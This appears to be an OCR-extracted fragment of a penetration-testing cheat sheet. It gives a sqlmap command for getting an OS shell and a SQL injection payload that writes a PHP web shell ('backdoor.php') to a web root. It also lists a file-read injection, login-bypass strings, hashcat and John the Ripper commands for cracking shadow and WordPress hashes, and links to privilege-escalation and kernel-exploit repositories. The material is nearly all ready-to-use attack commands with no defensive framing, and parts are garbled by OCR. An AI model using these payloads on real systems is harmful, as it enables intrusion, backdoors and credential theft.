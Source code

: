  # sqlmap shell
` sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell`


Upload php command injection le

` union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/www
 root/backdoor.php'
`

Load file

` union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6`


      Bypasses
 ' or 1=1   LIMIT 1 --
       ' or 1=1   LIMIT 1 -- -
       ' or 1=1   LIMIT 1#
       'or 1#
       ' or 1=1   --
       ' or 1=1   -- -


# Brute force

John the Ripper shadow file

     $ unshadow passwd shadow > unshadow.db

     $ john unshadow.db


 # Hashcat SHA512 $6$ shadow file
` hashcat -m 1800 -a 0 hash.txt rockyou.txt --username
`
 #Hashcat MD5 $1$ shadow file
` hashcat -m 500 -a 0 hash.txt rockyou.txt --username
`
 # Hashcat MD5 Apache webdav file
` hashcat -m 1600 -a 0 hash.txt rockyou.txt
`
 # Hashcat SHA1
` hashcat -m 100 -a 0 hash.txt rockyou.txt --force
`
 # Hashcat Wordpress
` hashcat -m 400 -a 0 --remove hash.txt rockyou.txt
`


  [632d99cf]: https://github.com/sleventyeleven/linuxprivchecker "LinuxPrivChecher"
  [7e52e0f5]: https://github.com/rebootuser/LinEnum "LinEnum"
  [c844aa43]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp "PowerUp"
  [96609f81]: https://github.com/abatchy17/WindowsExploits "abatchy17"
  [233cd690]: https://github.com/lucyoa/kernel-exploits "kernel-exploits"